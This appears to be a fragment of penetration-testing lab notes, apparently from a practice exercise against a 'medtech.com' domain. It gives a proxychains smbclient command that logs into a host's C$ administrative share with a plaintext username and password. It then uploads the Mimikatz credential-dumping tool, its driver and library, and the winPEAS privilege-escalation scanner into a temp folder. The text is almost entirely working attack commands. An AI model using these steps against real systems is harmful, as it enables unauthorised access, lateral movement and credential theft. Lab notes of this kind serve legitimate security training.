 smbclinet
```
proxychains smbclient //172.16.219.11/C$ -U medtech.com/joe --password=Flowers1
```

upload mimikatz
```
cd TEMP
put ./x64/mimikatz.exe mimikatz.exe
put ./x64/mimidrv.sys mimidrv.sys
put ./x64/mimilib.dll mimilib.dll
put winPEASx86.exe ./winpeas86.exe
```